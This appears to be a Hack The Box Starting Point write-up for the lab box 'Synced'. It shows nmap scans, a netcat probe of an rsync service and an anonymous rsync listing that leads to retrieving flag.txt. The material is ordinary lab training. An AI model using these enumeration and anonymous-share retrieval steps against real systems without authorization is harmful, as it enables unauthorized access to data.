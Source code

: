 ```yaml
---
layout: post
title: synced
categories: htb
tags:
- htb
- starting_point
- synced
author: nicoliboli
description: starting point | tier 0 | box 7
date: '2025-06-26 16:55:42 -0400'
---
```

# enumeration

```
$ nmap 10.129.114.86             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-26 16:41 EDT
Nmap scan report for 10.129.114.86
Host is up (0.098s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT    STATE SERVICE
873/tcp open  rsync

Nmap done: 1 IP address (1 host up) scanned in 8.07 seconds

$ nmap -sC -sV -p 873 10.129.114.86
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-26 16:41 EDT
Nmap scan report for 10.129.114.86
Host is up (0.094s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.73 seconds
```

## port 873

```
$ nc -vn 10.129.114.86 873
(UNKNOWN) [10.129.114.86] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
public          Anonymous Share
@RSYNCD: EXIT

$ nc -vn 10.129.114.86 873
(UNKNOWN) [10.129.114.86] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
public
@RSYNCD: OK
```

looks like we don't need to authenticate to the share

# exploitation

check to make sure we can list the contents of `public`

```
$ rsync -vr --list-only rsync://10.129.114.86/public
receiving incremental file list
drwxr-xr-x          4,096 2022/10/24 18:02:23 .
-rw-r--r--             33 2022/10/24 17:32:03 flag.txt

sent 24 bytes  received 72 bytes  9.14 bytes/sec
total size is 33  speedup is 0.34
```

copy over the `flag.txt` file and `cat` it

![flag](/assets/img/synced_flag.png)